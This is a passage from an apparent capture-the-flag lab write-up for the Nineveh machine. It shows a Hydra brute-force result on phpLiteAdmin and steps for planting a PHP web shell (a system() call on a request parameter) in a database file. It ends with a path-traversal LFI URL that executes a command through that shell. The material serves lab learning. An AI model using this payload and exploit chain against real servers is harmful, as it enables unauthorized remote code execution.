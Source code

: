 And success!

```none
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-04 16:11:51
```

I followed the instructions in the exploit provided. This was a challenge for me, and took me about 20-30 attempts to get the exploit working with the LFI. My main steps were:

- Create new database with a short name: `a.php`
- Select `a.php` database
- Create new table with 1 field (any name)
- Create new field (any name)
- Set type to `TEXT`
- Set default value to PHP code you want to run
- `<?php system($_REQUEST["b"]) ?>`

![443 Creating a new table in phpLiteAdmin](screenshots/443_phpliteadmin_new_table.png)

I kept all the names very short - 1 character. This was because I had numerous problems getting the file loaded via the LFI vulnerability - due to filename length limit on the LFI vulnerability. The final LFI used is listed below:

```none
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes../../../../../../../var/tmp/a.php&b=whoami
```
